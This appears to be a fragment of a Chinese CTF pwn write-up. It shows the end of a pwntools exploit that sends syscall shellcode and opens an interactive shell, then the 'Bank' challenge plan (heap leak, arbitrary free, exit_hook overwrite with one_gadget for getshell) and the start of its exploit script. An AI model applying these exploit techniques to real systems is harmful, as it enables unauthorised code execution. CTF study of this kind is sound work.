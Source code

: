 ```python
L1:
add rsi, 0x1000
mov eax, 1
syscall
test eax, eax
jng L1
xor edi, edi
mov edx, 1
L2:
add rsi, 0x1000
xor eax, eax
syscall
test eax, eax
jng L2
mov rdx, 0x300
mov edi, 1
mov eax, 1
syscall
"""

se(asm(shellcode))
sleep(1)
sl('1')
p.interactive()
```

![image-20220709085606083](https://blog-1310088624.cos.ap-nanjing.myqcloud.com/blog/image-20220709085606083.png)

1.2 Bank
--------

菜单套菜单，但是第一个菜单只需要用到 Login。重点在第二个菜单，实现了 400 cost 以内的限制读，任意free，仅一次的任意写，以及一些堆块操作。

### 思路

1. 堆布局，Leak 出堆地址和 Libc
2. 任意 Free 掉含 `任意写地址` 的地址，分配回来写上 exit\_hook
3. 任意写 one\_gadget 进入 exit 完成 getshell

### exp

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*
import re
import os
from pwn import *
from LibcSearcher import *

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
lg = lambda name,data : p.success(name + ': \033[1;36m 0x%x \033[0m' % data)

def debug(breakpoint=''):
    glibc_dir = '~/Exps/Glibc/glibc-2.27/'
    gdbscript = 'directory %smalloc/\n' % glibc_dir
    gdbscript += 'directory %sstdio-common/\n' % glibc_dir
```